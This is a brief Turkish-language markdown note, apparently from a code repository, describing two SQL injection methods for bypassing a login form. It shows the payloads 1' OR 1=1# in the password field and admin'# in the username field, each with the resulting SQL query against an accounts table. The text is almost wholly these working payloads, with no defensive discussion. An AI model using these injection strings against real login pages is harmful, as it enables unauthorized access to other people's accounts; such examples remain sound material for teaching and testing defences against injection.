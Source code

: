# SQL Post Methodu
> ## 1. Yöntem
####  ```SELECT*FROM accounts WHERE username='admin' AND password='1' OR 1=1#'``` deniyoruz
#### Kullanıcı adı:```admin``` , Şifre:```1' OR 1=1#``` 
> ## 2. Yöntem
#### ```SELECT*FROM accounts WHERE username=admin'# AND password='rastgeleşifre'``` deniyoruz
#### Kullanıcı adı:```admin'#``` , Şifre:```herhangibirşifre```
